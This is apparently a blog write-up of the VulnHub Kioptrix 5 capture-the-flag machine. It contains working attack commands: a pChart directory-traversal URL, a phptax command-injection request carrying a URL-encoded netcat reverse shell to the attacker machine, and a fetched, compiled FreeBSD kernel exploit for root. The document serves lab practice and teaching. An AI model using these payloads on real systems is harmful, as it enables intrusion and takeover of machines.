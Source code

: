 ```yaml
---
title: "Kioptrix 5"
date: 2024-05-20
draft: false
summary: "Writeup for Kioptrix level 5 of the Kioptrix series challenge on VulnHub."
tags: ["kioptrix", "linux", "lfi", "directory traversal", "kernel exploit"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/kioptrix5/cover.webp"
  caption: "Kioptrix 5 VulnHub Challenge"
  alt: "Kioptrix 5 cover"
platform: "VulnHub"
---
```


This is the final level in the Kioptrix series and has the same goal as the rest - capture the flag present in the root directory by any means possible.
<!--more-->
You can download kioptrix level 5 by clicking on the link given below:
- https://www.vulnhub.com/entry/kioptrix-2014-5,62/

## Recon

I performed a network scan to find the IP of the target machine.

```bash
nmap -sn 192.168.1.0/24              
```

After identifying the target IP, I performed an **nmap** aggressive scan to find open ports and running services.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN nmap.out
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 8080     | http        |

![](https://cdn.ziomsec.com/kioptrix5/1.webp)

## Initial Foothold

I tried fetching information about the application running on port 8080 but was forbidden.

```shell
curl http://TARGET:8080
```

![](https://cdn.ziomsec.com/kioptrix5/2.webp)

I fetched information about port 80 using **curl** and found an interesting path.

```shell
curl http://TARGET
```

![](https://cdn.ziomsec.com/kioptrix5/3.webp)

I accessed the path mentioned in the comment and got access to a charting application.

![](https://cdn.ziomsec.com/kioptrix5/4.webp)

Since the version of this application was available, I searched **Exploit-DB** for any exploits related to it.

```shell
searchsploit "pChart"
searchsploit -m php/webapps/31173.txt
```

![](https://cdn.ziomsec.com/kioptrix5/5.webp)

I found out that this particular version of the application was vulnerable to directory traversal.

![](https://cdn.ziomsec.com/kioptrix5/6.webp)

Hence, used the provided payload to read the contents of the */etc/passwd* file.

```
http://TARGET/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd
```

![](https://cdn.ziomsec.com/kioptrix5/7.webp)

I then searched for the path where FreeBSD systems store Apache configuration files.

```
/usr/local/etc/apache22/httpd.conf
```

I accessed this file and found the reason why I was being denied on port 8080.

![](https://cdn.ziomsec.com/kioptrix5/8.webp)

![](https://cdn.ziomsec.com/kioptrix5/9.webp)

It required a specific user-agent. So I used **curl** to fetch information about that port by adding this user-agent.

```shell
curl http://TARGET:8080 -A "Mozilla/4.0 Mozilla4_browser"
```

![](https://cdn.ziomsec.com/kioptrix5/10.webp)

This had a directory listing and a link to "phptax". So I used **searchsploit** to look for exploits related to it.

>PHPtax is a free, open-source web application designed for managing and preparing tax documents. 

```shell
searchsplot "phptax"
```

![](https://cdn.ziomsec.com/kioptrix5/11.webp)

I tried the exploit available on Metasploit but it didn't work. So, I use alternative from Exploit DB to get a reverse shell using **netcat**:
- https://www.exploit-db.com/exploits/21665

I started an **nc** listener on port 4444.

```bash
rlwrap nc -lnvp 4444
```

I then configured a **netcat mkfifo** payload from **revshells**, URL encoded it and used it to get a reverse shell.
- https://www.revshells.com/

![](https://cdn.ziomsec.com/kioptrix5/12.webp)

```shell
curl http://TARGET:8080/phptax/drawimage.php?pfilez=1040d1-pg2.tob;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20KALI%20PORT%20%3E%2Ftmp%2Ff;&pdf=make -A "Mozilla/4.0 Mozilla4_browser"
```

![](https://cdn.ziomsec.com/kioptrix5/13.webp)

## Privilege Escalation

The flag was present in the *root* directory but I did not have the permissions to read it.

![](https://cdn.ziomsec.com/kioptrix5/14.webp)

I viewed the kernel information and searched for exploits related to it on **Exploit DB** using **searchsploit**.

```shell
uname -a
```

![](https://cdn.ziomsec.com/kioptrix5/15.webp)

```shell
searchsploit "FreeBSD 9.0"
```

![](https://cdn.ziomsec.com/kioptrix5/16.webp)

I downloaded the first exploit on the target.

```shell
fetch http://KALI/EXPLOIT
```

![](https://cdn.ziomsec.com/kioptrix5/17.webp)

After compiling it, I ran the exploit to get root access.

```shell
gcc EXPLOIT
./a.out
```

![](https://cdn.ziomsec.com/kioptrix5/18.webp)

Finally, I navigated to the root directory, fixed the permission of the flag and captured it.

```shell
cd root
chmod 777 congrats.txt
cat congrats.txt
```

![](https://cdn.ziomsec.com/kioptrix5/19.webp)

![](https://cdn.ziomsec.com/kioptrix5/20.webp)

## Closure

Here's a summary of how I pwned Kioptrix Level 5:
- I exploited the Directory Traversal vulnerability in the *pchart* page to get HTTP configuration information.
- This gave me a way to access the server on port 8080.
- I used the *phptax* RCE exploit to get a reverse shell from the server running on port 8080.
- I then used a kernel exploit to escalate my privilege.

That's it from my side.
Happy Hacking :)

---
